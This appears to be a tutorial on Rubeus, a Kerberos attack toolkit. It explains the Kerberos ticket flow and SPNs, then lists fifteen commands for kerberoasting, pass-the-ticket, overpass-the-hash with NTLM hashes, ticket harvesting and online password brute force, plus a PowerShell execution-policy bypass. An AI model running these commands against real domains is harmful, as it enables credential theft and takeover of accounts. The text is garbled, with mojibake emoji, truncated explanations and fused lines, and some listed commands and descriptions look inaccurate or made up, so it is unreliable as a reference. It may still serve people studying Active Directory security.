

Rubeus Tutorial
Introduction
Rubeus is a C# toolkit for Kerberos interaction and abuses...
Kerberos Authentication Flow
The Kerberos protocol defines how clients interact with a network authentication service...
| Kerberos Components | Roles |
|---|---|
| Volunteers (Players) | • Client: A user who wants to access some service. • KDC: Key Distribution Centre; handles authentication and ticket issuing. • Application server: A dedicated server for specific service. |
| Encryption Keys | krbtgt key: Using krbtgt account NTLM hash. User key: Using user NTLM hash. Service key: NTLM hash of service (can be user or computer). Session key: Shared between user and KDC. Service session key: Shared between user and service. |
| Tickets | TGT (Ticket Granting Ticket): ticket to request TGSs; encrypted with KDC key. TGS (Ticket Granting Service): ticket used to authenticate to a service; encrypted with the service key. |
| PAC | Privilege Attribute Certificate: Contains user privileges; signed using KDC key. |
| Message |
KRB_AS_REQ: User sends request for TGT to KDC.
KRB_AS_REP: KDC replies with TGT.
KRB_TGS_REQ: User sends TGS request using TGT.
KRB_TGS_REP: KDC replies with TGS.
KRB_AP_REQ: User authenticates with TGS to access service.
KRB_AP_REP: (Optional) Service replies to validate identity.
KRB_ERROR: Error message from KDC or service.
|
Kerberos Workflow using Messages
In the Active Directory domain, every domain controller runs a KDC (Kerberos Distribution Center) service that processes all requests for tickets to Kerberos...
The image below shows that the major role played by KDC in establishing a secure connection between the server & the client...
As mentioned above, Kerberos uses symmetric cryptography for encryption and decryption...
Here we use three colours to distinguish Hashes...
Step 1:
By sending the request message to KDC, client initializes communication as...
KRB_AS_REQ contains the following...
Step 2:
The KDC uses a database consisting of Users/Krbtgt/Services hashes to decrypt a message...
Then KDC will generate TGT (Ticket Granting Ticket) for a client...
KRB_AS_REP contains the following...
Step 3:
The KRB_TGT will be stored in the Kerberos tray (Memory) of the client machine...
KRB_TGS_REQ contains...
Step 4:
The KDC receives the KRB_TGS_REQ message and decrypts it using Krbtgt hash...
KRB_TGS_REP contains...
Step 5:
The user sent the copy of TGS to the Application Server...
KRB_AP_REQ contains...
Step 6:
The application attempts to decrypt the message using its NTLM hash...
Step 7:
KDC verifies PAC...
Step 8:
The application allows the user to access the service for a specific time...
üîê Service Principal Name (SPN)
The Service Principal Name (SPN) is a unique identifier for a service instance...
Important Points
üß© SPN Syntax
If it is not unique, authentication will fail...
The SPN syntax has four elements...
Example: MSSQLSVC/ WIN-S0VKMTVLD2/ignite.local:1433
Type of SPN:
üì¶ Main Functions
⚙️ Example Usage: Kerberoasting
Rubeus kerberoast /output:hashes.txtThis mode allows extracting service tickets (TGS)...
üõ†Ô∏è Execution from PowerShell
powershell -exec bypass -c "Import-Module .\Rubeus.ps1; Rubeus.exe kerberoast"üß™ 15 Rubeus Commands to Know
Here is a list of useful commands to manipulate Kerberos with Rubeus...
1. Rubeus.exe kerberoast
# Retrieves service tickets (TGS) exploitable by Kerberoasting2. Rubeus.exe asktgt /user:Zed /rc4:NTLM_HASH
# Requests a TGT using a known NTLM hash3. Rubeus.exe tgtdeleg
# Requests a TGT via implicit delegation (clear TGT)4. Rubeus.exe dump
# Displays the Kerberos tickets currently in memory5. Rubeus.exe ptt /ticket:ticket.kirbi
# Injects a .kirbi ticket into memory (Pass-the-Ticket)6. Rubeus.exe tgtrenew /ticket:ticket.kirbi
# Renews an existing TGT with its .kirbi ticket7. Rubeus.exe tgtpass /user:Zed /rc4:NTLM_HASH
# Generates a TGT via Overpass-the-Hash (OPTH)8. Rubeus.exe hash
# Dumps the Kerberos hashes extracted via tickets (roasting, etc)9. Rubeus.exe monitor /interval:30
# Monitors new tickets in real-time10. Rubeus.exe ticket /lifetime:2 /rc4:NTLM_HASH
# Generates a TGT with a custom duration11. Rubeus.exe harvest /interval:20 /nowrap
# Retrieves tickets present on the machine and displays them in a loop12. Rubeus.exe brute /userlist:users.txt /passwordlist:pw.txt /domain:lab.local
# Online brute force attack against Kerberos13. Rubeus.exe createnetonly /program:cmd.exe
# Creates a process without Kerberos authentication (netonly)14. Rubeus.exe describe /ticket:admin.kirbi
# Analyzes the structure of a given ticket (.kirbi)15. Rubeus.exe tgtdeleg /nowrap
# TGT delegation variant without line breaks (useful for parsing)üìö Additional Resources
Official GitHub Repository ADSecurity.org Blogby Zed